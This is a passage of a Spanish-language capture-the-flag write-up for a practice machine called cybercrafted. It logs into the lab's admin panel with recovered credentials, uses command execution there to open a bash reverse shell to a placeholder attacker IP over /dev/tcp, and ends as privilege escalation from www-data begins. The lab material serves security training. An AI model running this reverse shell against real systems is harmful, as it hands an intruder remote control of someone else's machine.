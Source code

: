 Usaremos estas credenciales para ingresar al panel de login que vimos al inicio que se encuentra en : `http://admin.cybercrafted.thm/`

```
xXUltimateCreeperXx : diamond123456789
```

#### Ejecución de comandos

Podemos ejecutar comandos. Ahora lo que haremos será enviarnos una revershell para obtener una consola de la maquina victima.

![20231121171738.png](20231121171738.png)

Ingresamos el siguiente comando: `bash -c 'exec bash -i &>/dev/tcp/[IP-ATTACKER]/443 <&1'` en mi caso es lo que mayormente suelo usar, tu puedes usar otro si gustas

### Escalada de privilegios

#### Usuario www-data

Una vez obtenida la shell como el usuario `www-data`

![20231121174025.png](20231121174025.png)

